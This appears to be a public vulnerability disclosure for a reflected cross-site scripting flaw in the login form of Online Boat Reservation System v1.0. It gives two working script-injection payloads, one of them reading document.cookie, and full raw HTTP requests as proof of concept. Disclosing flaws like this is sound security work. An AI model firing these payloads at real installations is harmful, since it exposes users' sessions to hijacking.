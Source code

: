 # Online Boat Reservation System v1.0 by winex01 has Cross-site scripting (reflected)

BUG_Author: jidle

Vulnerability File: /boat/login.php

Parameter "un" (POST), exists XSS vulnerability

Payload1:un=a%22%3E%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3Ea&up=bb&login=

#POC：

```
POST /boat/login.php HTTP/1.1
Host: localhost
Content-Length: 71
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/boat/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=93hsohaq8jq20vpubcrlbfap8c
Connection: close

un=a%22%3E%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3Ea&up=bb&login=
```

![image](https://github.com/jidle123/picture/blob/main/xss.png)

Payload2:un=a%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3Ea&up=bbb&login=

#POC：

```
POST /boat/login.php HTTP/1.1
Host: localhost
Content-Length: 78
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/boat/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=93hsohaq8jq20vpubcrlbfap8c
Connection: close

un=a%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3Ea&up=bbb&login=
```

![image](https://github.com/jidle123/picture/blob/main/cookie.png)
